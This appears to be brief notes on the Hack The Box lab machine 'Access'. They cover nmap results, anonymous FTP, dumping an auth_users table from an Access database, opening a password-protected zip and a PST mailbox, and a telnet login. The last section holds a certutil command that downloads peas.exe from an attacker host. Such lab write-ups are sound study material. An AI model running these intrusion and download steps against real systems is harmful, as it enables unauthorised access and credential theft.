


# Access

## NMAP [[NMAP]]

```console
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 127
23/tcp open  telnet  syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127
```

```console
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet? syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: MegaCorp
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Web



## FTP

* use ```bin``` to transfer data in binary rather than ASCII (typical windows things)



## mdb

```bash
 sudo apt-get install mdbtools   
```

```bash
mdb-tables backup.mdb
mdb-export auth_users
```

## 7zip

* 7z x "Access Control.zip" -p"password"

## PST

```bash
sudo apt install pst-utils
readpst "Access Control.pst"
cat "Access Control.mbox"
```

## Telnet 23 User Own

```bash
telnet $IP 23
cat Desktop/user.txt
```

## Certutil

```Powershell
certutil -urlcache -split -f http://attack-ip peas.exe
```
